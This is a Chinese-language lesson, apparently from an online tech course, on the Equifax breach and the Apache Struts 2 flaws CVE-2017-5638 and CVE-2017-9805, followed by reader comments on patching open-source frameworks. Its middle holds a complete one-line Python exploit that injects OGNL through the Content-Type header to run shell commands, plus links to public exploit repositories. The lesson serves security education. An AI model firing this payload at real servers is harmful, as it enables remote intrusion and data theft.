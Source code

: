 ![](https://static001.geekbang.org/resource/image/00/cc/009ecfbac5741ea7ffd7fa3079a8c8cc.png?wh=1600%2A889)

从介绍中可以看出，此次漏洞的原因是Apache Struts 2的Jakarta Multipart parser插件存在远程代码执行漏洞，攻击者可以在使用该插件上传文件时，修改HTTP请求头中的Content-Type值来触发漏洞，最后远程执行代码。

说白了，就是在Content-Type注入OGNL语言，进而执行命令。代码如下（一行Python命令就可以执行服务器上的shell命令）：

```
import requests
requests.get("https://target", headers={"Connection": "close", "Accept": "*/*", "User-Agent": "Mozilla/5.0", "Content-Type": "%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"})
```

在GitHub上有相关的代码，链接为：[https://github.com/mazen160/struts-pwn](https://github.com/mazen160/struts-pwn) 或 [https://github.com/xsscx/cve-2017-5638](https://github.com/xsscx/cve-2017-5638)

注入点是在JakartaMultiPartRequest.java的buildErrorMessage函数中，这个函数里的localizedTextUtil.findText会执行OGNL表达式，从而导致命令执行（注：可以参看Struts 两个版本的补丁“2.5.10.1版补丁”“2.3.32版补丁”），使客户受到影响。

因为默认情况下Jakarta是启用的，所以该漏洞的影响范围甚广。当时官方给出的解决方案是尽快升级到不受影响的版本，看来Equifax的同学并没有注意到，或者也没有认识到它的严重性。

另外，在9月5日和7日，Struts官方又接连发布了几个严重级别的安全漏洞公告，分别是CVE-2017-9804、CVE-2017-9805、CVE-2017-9793和CVE-2017-12611。

这里面最容易被利用的当属CVE-2017-9805，它是由国外安全研究组织lgtm.com的安全研究人员发现的又一个远程代码执行漏洞。漏洞原因是Struts 2 REST插件使用带有XStream程序的XStream Handler 进行未经任何代码过滤的反序列化操作，所以在反序列化XML payloads时就可能导致远程代码执行。

![](https://static001.geekbang.org/resource/image/f8/02/f8a10b42faf789018e0a5dfadbbd0c02.png?wh=1600%2A591)

不过在Apache软件基金会的项目管理委员会的回应文章中，官方也对事故原因进行了分析和讨论。首先，依然不能确定泄露的源头是Struts的漏洞导致的。其次，如果确实是源于Struts的漏洞，那么原因“或是Equifax服务器未打补丁，使得一些更早期公布的漏洞被攻击者利用，或者是攻击者利用了一个目前尚未被发现的漏洞”。

根据推测，该声明提出黑客所使用的软件漏洞可能就是CVE-2017-9805漏洞，该漏洞虽然是在9月4日才由官方正式公布，但早在7月时就有人公布在网络上了，并且这个漏洞的存在已有9年。

相信通过今天的分享，你一定对Equifax的数据泄露始末及造成原因有了清楚的了解。欢迎把你的收获和想法，分享给我。下节课中，我们将回顾一下互联网时代的其他大规模数据泄露事件，并结合这些事件给出应对方案和技术手段。
<div><strong>精选留言（15）</strong></div><ul>
<li><span>廖雪峰</span> 👍（275） 💬（16）<p>struts的开发就是弱者，类似eval()的东西默认就敢开</p>2017-10-26</li><br/><li><span>Sdylan</span> 👍（119） 💬（0）<p>#Equifax信息泄露始末笔记
1.使用开源的框架必须实时关注其动态，特别是安全漏洞方面
2.任何公开的入口，都必须进行严格的安全检查
3.框架的选型十分重要，必须将安全考察进去</p>2018-06-01</li><br/><li><span>李志博</span> 👍（61） 💬（0）<p>Struts 漏洞那么多，最好的办法就是赶快切换spring mvc</p>2017-10-20</li><br/><li><span>javaadu</span> 👍（33） 💬（5）<p>使用开源框架，千万要注意其BUG和安全性，去年我们发现fastjson有个安全问题，整个公司在一个星期内都紧急检查和升级。现在github做得很好的一点是，会对我们的代码进行安全扫描，发现有包含安全性问题的版本的代码的时候，会给出升级提醒，在大一点的公司里也可以自己做这种安全扫描和提醒。</p>2018-11-17</li><br/><li><span>Richie</span> 👍（19） 💬（0）<p>事件：
大规模数据泄露

主角：
Equifax —— 美国三大信用报告公司中历史最悠久的一家，其掌握了多个国家公民的信用档案，包括公民的学前、学校经历、婚姻、工作、健康、政治参与等大量隐私信息。
